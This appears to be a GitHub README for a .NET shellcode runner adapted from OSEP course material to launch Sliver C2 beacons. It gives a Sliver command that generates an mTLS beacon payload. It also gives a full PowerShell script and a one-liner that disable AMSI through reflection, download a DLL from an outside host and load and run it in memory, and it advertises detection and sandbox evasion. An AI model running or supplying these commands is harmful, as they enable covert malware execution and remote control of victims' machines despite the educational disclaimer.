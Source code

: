 # Sliver_C-_Runner_Caesar

There is nothing special going on here; these are super basic methods.

## Introduction
This is a Digital Honk Project that illustrates cybersecurity techniques within Windows environments, showcasing shellcode execution from an embedded resource. A standout feature is its use of encoded payloads, which focus on evading detection through custom encoding schemes and AMSI bypass techniques. As the creator of the Payload-Encoder and an advocate for educational purposes, this project aims to deepen the understanding of cyber security mechanisms and ethical hacking practices. This is modified code from the OSEP course to execute Sliver Payloads.

### Key Features
- Shellcode execution from embedded resources in .NET applications.
- Custom payload encoding schemes are used to evade signature-based detection.
- Implementation of AMSI bypass techniques for unrestricted payload execution.
- Demonstrates evasion strategies to bypass sandbox detections.

## Getting Started

### Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

### Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

### Execution with AMSI Bypass
To execute the payload with an AMSI bypass, use the following PowerShell script, ensuring your environment permits script execution:
```powershell
try{
 [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } | % {
     ($c = $_).GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } | % {
         $g = $_.GetValue($null);
         [IntPtr]$ptr = $g;
         [Int32[]]$buf = @(0);
         [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     }
 };
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll');
 $assem = [System.Reflection.Assembly]::Load($data);
 [honk.Program]::appleBits()
} catch {
 Write-Error "An error occurred: $_"
} finally {
 Write-Host "Press Enter to exit...";
 [Console]::ReadLine()
}
```

One Liner:
`try{[Ref].Assembly.GetTypes()|?{$_.Name -like "*iUtils"}|%{($c=$_).GetFields('NonPublic,Static')|?{$_.Name -like "*Context"}|%{$g=$_.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)}}; $data=(New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll'); $assem=[System.Reflection.Assembly]::Load($data); [honk.Program]::appleBits()}catch{Write-Error "An error occurred: $_"}finally{Write-Host "Press Enter to exit...";[Console]::ReadLine()}`

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
Acknowledgments

    Special thanks to the Sliver C2 framework for the payload generation capabilities.
    Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.
